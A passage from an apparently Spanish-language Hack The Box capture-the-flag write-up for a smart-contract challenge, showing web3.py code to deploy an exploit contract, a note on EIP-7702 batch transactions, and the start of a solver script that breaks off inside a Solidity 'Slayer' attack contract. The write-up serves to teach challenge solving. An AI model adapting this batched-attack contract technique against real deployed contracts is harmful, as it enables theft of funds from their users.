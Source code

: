 
## Alternativa con `web3.py`

```python
Exploit = w3.eth.contract(abi=exploit_abi, bytecode=exploit_bytecode)
Exploit.constructor().build_transaction({...})
exploit_contract = w3.eth.contract(address=exploit_addr, abi=exploit_abi)
exploit_contract.functions.win(target_addr).build_transaction({...})
```

Puedes ver el script completo [aquí](./htb/solver.py).

---

## Bonus

La limitación de no poder hacer batch de transacciones desde una EOA ha sido discutida durante años, dando lugar a la propuesta [EIP-7702](https://eips.ethereum.org/EIPS/eip-7702) que, en esencia, permitirá:

- Realizar **batch transactions**.
- Tener **transacciones patrocinadas** (relayers).
- Recuperación social mediante **Account Abstraction**.

Actualmente, la EIP-7702 está en pruebas en la testnet de Sepolia y se incluirá en la [Pectra Upgrade](https://ethereum.org/en/roadmap/pectra/).

---

## Script completo

```python
from solcx import install_solc, set_solc_version
install_solc("0.8.28")
set_solc_version("0.8.28")

from web3 import Web3
from solcx import compile_source

# Configuración RPC
w3 = Web3(Web3.HTTPProvider("RPC_PROVIDER_URL"))
assert w3.is_connected()

# Cuenta
private_key = "PLAYER_PRIVATE_KEY"
account = w3.eth.account.from_key(private_key)
w3.eth.default_account = account.address

# Dirección del contrato
eldorion_address = Web3.to_checksum_address("CONTRACT_ADDRESS")

# Código fuente del Slayer
source_code = '''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public eldorion;

    constructor(address _eldorion) {
        eldorion = IEldorion(_eldorion);
```